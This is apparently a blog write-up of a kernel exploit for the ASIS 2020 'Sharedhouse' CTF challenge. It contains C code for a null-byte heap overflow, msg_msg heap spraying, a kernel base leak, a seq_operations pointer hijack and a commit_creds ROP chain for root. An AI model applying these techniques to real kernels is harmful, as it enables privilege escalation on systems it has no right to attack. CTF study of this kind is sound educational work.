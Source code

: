 ```yaml
---
layout: post
title: Sharedhouse - ASIS 2020 Quals
data: 2021-05-13 19:04:04
summary: Exploit for the challenge Sharedhouse from ASIS 2020 Quals.
tags:
 - kernel
 - ctf
 - asis 2020
---
```



In my previous [post](https://souragc.github.io/2021/05/13/setting-up-env-for-kernel/) I used this as an example to show how to start debugging a kernel challenge.
Now let's see how to exploit this challenge. For the writeups that come after this, I will be
skipping the last part which is pretty much the same for almost all challenges.


### Analysis

As we have seen already, they have given the module inside the `rootfs.cpio`. Also we have seen
that smap and kpti are disabled. This means we can just stack pivot to userspace and execute
a rop chain. Let's open it in ida and see if we can find the bug.

Looks like it is a kernel heap challenge with 4 options:
- Add: Creates a chunk.
- Free: Frees the chunk that was created using add.
- View: Copies the data in the chunk to user.
- Edit: Copies data from user to kernel and puts it in the chunk created using add.
Bug is in this option. 

```c
if ( !note || v4 > size || copy_from_user(note, v5, v4) )
      goto LABEL_10;
*(note + v4) = 0;
```

We can see that it copies the data and then nulls the next byte. So if we give the data which is
same as length given, we get a null byte overflow. Since the kernel uses slab allocater, heap
will have pointer to next free chunk. We can use this to get leak as well as get rip.

### Kernel leak

Before going into how to leak, let's write the helper functions.

```c
void op(){
    fd = open("/dev/note",O_RDWR);
    if(fd<0){
        perror("Open");
    }
}


void add(ulong size){
    req q;
    q.size = size;
    int ret = ioctl(fd,ADD,&q);
    if(ret<0){
        perror("Add");
    }
}

void rm(){
    req q;
    int ret = ioctl(fd,RM,&q);
    if(ret<0){
        perror("rm");
    }
}

void edit(ulong size, char * buf){
    req q;
    q.size = size;
    q.buf = buf;
    int ret = ioctl(fd,EDIT,&q);
    if(ret<0){
        perror("Edit");
    }
}

void view(ulong size, char * buf){
    req q;
    q.size = size;
    q.buf = buf;
    int ret = ioctl(fd, VIEW, &q);
    if(ret<0){
        perror("View");
    }
}

```

Now to leak, we will be using the `msg_msg` strcut. You can find many other useful structs [here](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628).
We need to setup some things before we can start allocating the msg_msg struct.


```c
struct {
    long mtype;
    char mtext[0x80];
} msgbuf;


if ((qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) {
    perror("msgget");
    return -1;
}
msgbuf.mtype = 1 ;
memset(msgbuf.mtext, 'A', sizeof(msgbuf.mtext));

```

After this, we spray the heap to remove the chunks that might be in the middle of some other things.
Heap will not be contiguous. So we have to make it contiguous using the spray.

```c
for(int i = 0; i < 0xf; i++) {
    if (msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 48, 0) == -1) {
        perror("msgsnd");
        return -1;
    }
}

```
Note that here our msg_msg struct size will be 0x80. Depending on the size of the struct, our spray 
number will change. Our next allocated chunk will be this:

```sh
0xffff88800e777080:	0x0000000000000000	0x0000000000000000
0xffff88800e777090:	0x0000000000000000	0x0000000000000000
0xffff88800e7770a0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770b0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770c0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770d0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770e0:	0x0000000000000000	0x0000000000000000
0xffff88800e7770f0:	0x0000000000000000	0x0000000000000000
0xffff88800e777100:	0xffff88800e777180	0x0000000000000000
0xffff88800e777110:	0x0000000000000000	0x0000000000000000
0xffff88800e777120:	0x0000000000000000	0x0000000000000000
0xffff88800e777130:	0x0000000000000000	0x0000000000000000
0xffff88800e777140:	0x0000000000000000	0x0000000000000000
0xffff88800e777150:	0x0000000000000000	0x0000000000000000
0xffff88800e777160:	0x0000000000000000	0x0000000000000000
0xffff88800e777170:	0x0000000000000000	0x0000000000000000
0xffff88800e777180:	0xffff88800e777200	0x0000000000000000

```
In this, `0xffff88800e777100` is the next free chunk. So if we overflow into that, it will make the
chunk point to itself.

```c
add(0x80);
edit(0x80, (void*)buf);
rm();

```

We are removing the chunk because when we add, if there is already a chunk, it will free causing issue later on.
After this we have to remove the chunk that we freed now since it will be in top on the freelist. For this, we use
msg_msg again.


```c
if (msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 48, 0) == -1) {
    perror("msgsnd");
    return -1;
}

```
Now the next two allocations of size 0x80 will return the same chunk. To get the leak, we can use any struct of size 0x80.
Here we will be using `subprocess_info`. You can find the struct [here](https://elixir.bootlin.com/linux/latest/source/include/linux/umh.h#L19).

```c
add(0x80);
int pd = socket ( 22 , AF_INET, 0 );
view(0x80,(void *)buf);
ulong base = buf[3]-0x60160;
printf("base @ %p",(void *)base);
rm();

```
We will be using the same bug to get rip control.

### RIP

Overwriting a pointer in any struct that can be invoked can give us rip. Since there is no smap or kpti, we can just
stack pivot and execute rop of `commit_creds(prepare_kernel_cred(0))`.

To get rip, we will be using another struct: `seq_operations`.

```c

struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

We will be overwriting all the pointers in this. To get the struct, we open `/proc/self/stat` and to invoke the pointer,
we call read on the opened file. As before, we have to spray heap till the memory is contiguous. After that we invoke the
null byte overflow.
```c
for(int i=0;i<0x89;i++){
    open("/proc/self/stat",O_RDONLY);
}
add(0x20);
edit(0x20,(void * )buf);
rm();
open("/proc/self/stat",O_RDONLY);
add(0x20);
int ufd = open("/proc/self/stat",O_RDONLY);
```

If we now edit the chunk, we get write on the last opened file. We can confirm this by overwriting pointers with junk and
the kernel will crash.

Now it's time to make the rop chain. We need to find a gadget that can be used to pivot to userspace. I found this `mov esp,0x83c389c0 ; ret`
in the kernel. We can `mmap` a memory in that range and use that. Now we need to find gadgets that can set registers properly. If you have
done rop in userspace, this is pretty much the same. To get the offset to the functions, we can use `/proc/kallsyms`. You can read [this](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/)
to understand the rest of the rop chain.
After this we edit the chunk and call on the opened file.

```c
buf[0]=mov_rsp;
buf[1]=mov_rsp;
buf[2]=mov_rsp;
buf[3]=mov_rsp;
edit(0x20,(void*)buf);
read(ufd,buf,1);*
```

You can find the full exploit [here](https://github.com/souragc/CTFs/blob/master/kernel/solved/shared_house/exp.c).
### Conclusion

I have not explained everything that was done. I have given links to blogs that I used to learn. Also this exploit was heavily inspired by
[this](https://smallkirby.hatenablog.com/entry/2021/02/13/230520).
